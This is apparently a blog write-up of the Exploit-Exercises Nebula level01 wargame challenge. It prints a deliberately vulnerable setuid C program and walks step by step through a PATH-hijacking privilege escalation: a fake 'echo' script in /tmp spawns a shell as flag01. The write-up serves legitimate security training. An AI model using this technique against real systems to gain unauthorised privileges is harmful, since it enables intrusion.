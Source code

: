 ```yaml
---
layout: post
title:  "exploit-exercises.com - nebula - level01"
categories: exploit-exercises.com nebula
---
```


The second nebula level wants us to find a vulnerability in the program below:

{% highlight c %} 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

The last line is interesting. Instead of calling just `echo and now what?` the program runs the command through /usr/bin/env which means that it will run whatever the default version of `echo` is in the current **env**ironment or to be more precisely, the first `echo` executable that appears in the user's `$PATH`.

Let's check our $PATH:
```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

So first it will look for the `echo` program in `/usr/local/sbin`, then in `/usr/local/bin` and so on. Now if we change the `$PATH` variable and introduce a path where we place a file called `echo` then this file will be executed!

```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ PATH=/tmp:$PATH
level01@nebula:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Let's place the `bash` program in `/tmp` and rename it to `echo`:

```bash
level01@nebula:/home/flag01$ whereis bash
bash: /bin/bash /etc/bash.bashrc /usr/share/man/man1/bash.1.gz
level01@nebula:/home/flag01$ cp /bin/bash /tmp/
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 bash
level01@nebula:/home/flag01$ mv /tmp/bash /tmp/echo
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 echo
```

Now if we run the flag01 program our fake echo command will run and we will have a new shell which runs with the rights of the owner of the flag01 program:

```bash
level01@nebula:/home/flag01$ ./flag01 
echo: and: No such file or directory
```

What happened here? The program tries to call echo (now bash) with the arguments `and now what?`. From `man bash`: *If  arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands.  If bash is invoked in this fashion,  $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits.  Bash's exit status is the exit  sta‐tus  of the last command executed in the script. If no commands are executed the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.*
We have to find a way to ignore these arguments. Let's write a simple script which opens a new shell and ignores `and now what?`:

```bash
#!/bin/bash
bash
```

Save this in a file called `echo` under `/tmp`, make it executable and run the program again:

```bash
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rw-rw-r-- 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo 
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rwxrwxr-x 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ cat /tmp/echo 
#!/bin/bash
bash
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ whoami
flag01
```

Success! Now let's grab the flag:

```bash
flag01@nebula:/home/flag01$ getflag 
You have successfully executed getflag on a target account
```

<script src="https://asciinema.org/a/KKOjmYBfe3nJgrDIz3k5SFuex.js" id="asciicast-KKOjmYBfe3nJgrDIz3k5SFuex" async></script>
